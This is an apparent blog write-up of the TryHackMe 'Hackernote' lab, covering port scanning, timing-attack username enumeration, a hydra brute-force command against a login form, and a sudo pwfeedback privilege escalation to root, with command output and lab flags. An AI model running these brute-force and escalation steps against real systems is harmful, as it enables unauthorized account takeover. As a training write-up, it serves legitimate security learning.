 ```yaml
---
title: "Hackernote"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


<img src='hackernote.png' width=200 alt='hackernote'>

A nice room that try to be realistic about web exploitation

## Enumeration

### rustscan + nmap

```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0njoI1MTN18O8+mhh7M4EpPVA2+5B3OsOtfyhpjYadmUYmS1LgxRSCAyUNFP3iKM7vmqbC9KalD6hUSWmorDoPCzgTuLPf6784OURkFZeZMmC3Cw3Qmdu348Vf2kvM0EAXJmcZG3Y6fspIsNgye6eZkVNHZ1m4qyvJ+/b6WLD0fqA1yQgKhvLKqIAedsni0Qs8HtJDkAIvySCigaqGJVONPbXc2/z2g5io+Tv3/wC/2YTNzP5DyDYI9wL2k2A9dAeaaG51z6z02l6F1zGzFwiwrFP+fopEjhQUa99f3saIgoq3aPOJ/QufS1SiZc6AqeD8RJ/6HWz10timm5A+n4J
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHKcOFLvSTrwsitMygOlMRDEZIfujX3UEXx9cLfrmkYnn0dHtHsmkcUUMc1YrwaZlDeORnJE5Z/NAH70GaidO2s=
|   256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGFFNuuI7oo+OdJaPnUbVa1hN/rtLQalzQ1vkgWKsF9z

80/tcp   open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - hackerNote
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

8080/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - hackerNote
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Oh wow! A `Go` server! You don't always get those!

For the investigation we made a simple account and started looking around

For the user enumeration the `password reset` can be used but let's focus on the main thing

Introduction to `timing attack`:

As valid passwords seem to take a bit more time (hashing and processing) for a legitimate user, than wrong user's

We just make requests for multiple users (bruteforce)

And compare the times taken for every requests

The longest times (let's say more than 1 second, or any tolerable margin) are probably valid users

Obviously as we are not savages we will automate this with a script!

I chose the `python` exploit, as I am more comfortable with python

(Still Learning Golang)

It took me maaaad long time (for python is so fast) 

pro tips: you can also filter the names.txt list as you know the username lenght

`└──╼ $awk 'length($1) == 5 { print $1 }' names.txt > reduced.txt`

Adapt the time delay correctly 1s should be enough (slow internet, so I had to filter out false-positives to get the right user)

anyway here we go!

```
└──╼ $python3 exploit.py
Making requests ... 
Requests sent!
Time delta:  31.63563323020935  seconds
[REDACTED] is probably valid!
```
I redacted the user, because you have to suffer too

Now for the password attack we need a "custom" wordlist from the hint!

Get the suggested combinator and get a new wordlist

```
└──╼ $./combinator.bin colors.txt numbers.txt > custom_wordlist.txt 
```

Then use that good ol' hydra (or your favorite login forms bruteforcer)

```
└──╼ $hydra -l [username goes here] -P custom_wordlist.txt 10.10.88.143 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).


Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-04 01:08:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180 login tries (l:1/p:180), ~12 tries per task
[DATA] attacking http-post-form://10.10.88.143:80/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 132 to do in 00:03h, 16 active
[80][http-post-form] host: 10.10.88.143   login: [username]   password: [REDACTED BOIII]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-04 01:10:12


```

Now we got access! login and grab ssh access too, then get in!

```
user@hackernote:~$ cat user.txt
thm{real_flag_for_free_no_tricks}
```

## Privilege escalation


Remember `pwdfeedback` ? no? google it!

you are even provided the exploit already, so let's just escalate bro


```
└──╼ $gcc pwfeedback.c -o exploit

└──╼ $scp ./exploit user@10.10.88.143:/home/user 
user@10.10.88.143's password: 
exploit 
````
Now witness magic

```
user@hackernote:~$ ./exploit
[sudo] password for user: 
Sorry, try again.
# id
uid=0(root) gid=0(root) groups=0(root),1001(user)

# cat root.txt
thm{true_root_flag_this_time_i_sweaar}

```

## Comments on realism:

>This room was designed to be more realistic and less CTF focused. The logic behind the timing attack is mentioned in OWASP's authentication section, and a fairly similar timing attack existed on OpenSSH, allowing username enumeration

>The privilege escalation for this box is a real world CVE vulnerability, and affected the default configurations of sudo on macOS, Linux Mint and ElementaryOS

I did that room mostly to see how realist it could go and practice password cracking

was not disappointed but I think this is not always real-life applicable

Anyway, that room was just great! 
